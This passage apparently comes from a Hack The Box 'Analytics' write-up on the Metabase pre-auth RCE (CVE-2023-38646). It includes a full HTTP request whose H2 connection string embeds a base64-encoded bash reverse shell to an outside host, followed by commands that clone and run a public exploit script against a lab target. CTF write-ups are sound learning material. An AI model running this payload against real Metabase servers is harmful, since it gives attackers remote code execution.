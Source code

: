 - Obtained the setup token from `/api/session/properties`
- Found an API endpoint that can be used with this token that validates DB connections
- Found a 0day SQL injection vulnerability in H2 db driver
- Found that we could use `zip:/app/metabase.jar!/sample-database.db` to prevent the corruption of any databases on disk

This is the request POC to get a reverse shell

> The payload needs to be encoded in base64 with no special characters like `=`, and escape spaces with brackets(`{}`) after `bash -c` for `getRuntime().exec`
{: .prompt-tip }

```http
POST /api/setup/validate HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 812

{
    "token": "5491c003-41c2-482d-bab4-6e174aa1738c",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvOTk5OCAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```


#### Exploit

There's a POC for lazy people

> https://github.com/securezeron/CVE-2023-38646

```bash
┌──(bravosec㉿fsociety)-[~/htb/Analytics/exploit]
└─$ git clone https://github.com/securezeron/CVE-2023-38646

┌──(bravosec㉿fsociety)-[~/htb/Analytics/exploit]
└─$ cd CVE-2023-38646

┌──(bravosec㉿fsociety)-[~/…/Analytics/exploit/CVE-2023-38646]
└─$ python CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb/ --lhost 10.10.14.7 --lport 1111
[DEBUG] Original rhost: http://data.analytical.htb/
[DEBUG] Preprocessed rhost: http://data.analytical.htb
[DEBUG] Input Arguments - rhost: http://data.analytical.htb, lhost: 10.10.14.7, lport: 1111
[DEBUG] Fetching setup token from http://data.analytical.htb/api/session/properties...
[DEBUG] Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
```